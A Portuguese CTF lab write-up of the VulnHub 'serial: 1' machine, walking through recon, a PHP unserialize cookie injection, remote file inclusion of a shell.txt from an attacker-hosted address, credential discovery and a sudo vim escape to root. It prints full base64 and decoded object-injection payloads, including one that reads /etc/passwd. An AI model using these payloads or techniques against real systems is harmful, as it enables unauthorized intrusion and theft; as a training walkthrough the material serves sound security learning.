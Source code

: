 ```yaml
---
title: 'VulnHub serial: 1'
excerpt: "Desafio CTF <strong><a href=''>VulnHub serial: 1</a></strong> Realizado para aprendizado sobre conceitos de segurança da informação."
date: 2019-08-22 17:08:41
tags:
cover: https://cdn-images-1.medium.com/max/800/1*E0oIubshtbc73STQvJvVVA.png
cover_creditos:
default_cover:
---
```


Hello friends.

> _Alvo:_ **serial: 1 (Linux)**
> _Atacante:_ **parrot** 4.19

### Informações sobre o Alvo.

Nenhuma informação sobre o alvo.

### Reconhecimento / Enumeração.

Descobrindo portas abertas no alvo.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*E0oIubshtbc73STQvJvVVA.png" alt="">
      <figcaption></figcaption>
    </figure>

nmap

Logo depois do nmap fazer a varredura no alvo percebemos que existe duas portas abertas um rodando servidor ssh e outra rodando apache.  
Em seguida fazemos uma varredura no servido web em busca de alguma brecha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*ODfuxGEJggU5M4sUuT5ZPQ.png" alt="">
      <figcaption></figcaption>
    </figure>

nikto

Ao terminar a varredura encontramos uma pasta backup com um arquivo zip.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*EBBofWkmuG0cccEMni0ZrQ.png" alt="">
      <figcaption></figcaption>
    </figure>

bak.zip

Logo depois de baixar o zip e descompactar, notamos que existe alguns scripts em php.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*OK7PvAwujCzPB2UwJtDu_w.png" alt="">
      <figcaption></figcaption>
    </figure>

lista de arquivos.

Agora vamos fazer uma verificação nos script e verificar se existe alguma brecha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*NMBwaqW0wBphYl1Mnw90aA.png" alt="">
      <figcaption></figcaption>
    </figure>

index.php

No index.php notamos que o cookies é serializado e depois cifrando em base64, logo abaixo existe uma função (unserialize) que aparentemente esta vulnerável.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*9Oo_9P6ntqCns5jsC8DPUg.png" alt="">
      <figcaption></figcaption>
    </figure>

Classe User e Welcome.

Nas classes **User** e **Welcome** não há nada que possa ser aproveitado.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*WZFTDR-fbe_l8cLq4OZiSg.png" alt="">
      <figcaption></figcaption>
    </figure>

Classe Log.

Na classe **Log** tem um “include” que esta vulnerável.  
Antes vamos ver o que vem no cookie ao acessar o servidor.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*0Qw4PkhuhUdIKNZKaTRCNA.png" alt="">
      <figcaption></figcaption>
    </figure>

requisição no servidor.

**base64 codificado.**

> Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086NzoiV2VsY29tZSI6MDp7fX0=

**base64 decodificado.**

> O:4:”User”:2:{s:10:”Username”;s:3:”sk4";s:9:”Userwel”;O:7:”Welcome”:0:{}}

Agora vamos criar nosso payload para teste.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*H8lD21pGTzcNqmZKRI5YUg.png" alt="">
      <figcaption></figcaption>
    </figure>

Classe Log modificada.

Vamos fazer a classe **Log** ler o **passwd** do servidor.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*yiZLUMygL0tINDcLery-8w.png" alt="">
      <figcaption></figcaption>
    </figure>

Chamando a classe **Log** no lugar da **Welcome**, e gerando o payload.

**base64 codificado.**

> Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjc6IkhBQ0tFUiAiO3M6OToiAFVzZXIAd2VsIjtPOjM6IkxvZyI6MTp7czoxMzoiAExvZwB0eXBlX2xvZyI7czoxMToiL2V0Yy9wYXNzd2QiO319

**base64 decodificado.**

> O:4:”User”:2:{s:10:”Username”;s:7:”HACKER “;s:9:”Userwel”;O:3:”Log”:1:{s:13:”Logtype\_log”;s:11:”/etc/passwd”;}}

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*ONady6B01Di8uF_hps_zRQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Burp

O resultado é a leitura do arquivo passwd.  
Vamos criar uma shell para executar alguns comando.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*xVDLNcggZw89CO59xr4CwQ.png" alt="">
      <figcaption></figcaption>
    </figure>

shell.txt

Observe que a extensão do arquivo é .txt

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*evfTBCCc9UgfqDD7pVEIZw.png" alt="">
      <figcaption></figcaption>
    </figure>

alterando a classe Log.

Alterando a classe **Log** para pegar o arquivo shell.txt e gerando um novo payload gerado:

**base64 codificado.**

> Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjc6IkhBQ0tFUiAiO3M6OToiAFVzZXIAd2VsIjtPOjM6IkxvZyI6MTp7czoxMzoiAExvZwB0eXBlX2xvZyI7czozMzoiaHR0cDovLzE5Mi4xNjguMS43OjkwOTAvc2hlbGwudHh0Ijt9fQ==

**base64 decodificado.**

> O:4:”User”:2:{s:10:”Username”;s:7:”HACKER “;s:9:”Userwel”;O:3:”Log”:1:{s:13:”Logtype\_log”;s:33:”[http://192.168.1.7:9090/shell.txt](http://192.168.1.7:9090/shell.txt)";}}

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*aYRW6s24NtrqweVk-po0Ug.png" alt="">
      <figcaption></figcaption>
    </figure>

executando comando “id”.

Nosso comando funciona perfeitamente.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*4bm1aeuNTf4us81FeVTBpA.png" alt="">
      <figcaption></figcaption>
    </figure>

credentials.txt.bak

Listando os arquivo da raiz do servidor, encontramos um arquivo com o nome de “credentials” tudo indica ser uma senha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*T4Wjz4-2Nne4JG4Tq9gxkA.png" alt="">
      <figcaption></figcaption>
    </figure>

Conseguindo a senha.

Obtemos a nossa senha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*rf3Sm8Q631g_2vlWAltIhQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Primeira flag.

Ganhamos acesso ao servidor, e obtemos a primeira flag.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*JFz4iyo8FwZszpLwiJhtWA.png" alt="">
      <figcaption></figcaption>
    </figure>

Ganhando acesso.

Temos como executar o VIM como super usuário, e para escapar para é só pressionar ESC e digitar e digitar “:!bash”.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*ypWcrTQGXIbYny1WgXGvAQ.png" alt="">
      <figcaption></figcaption>
    </figure>

Ganhamos acesso root.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*kSeR-khp2aPb5yEaBiD-dw.png" alt="">
      <figcaption></figcaption>
    </figure>

Acesso root.

Até a próxima.
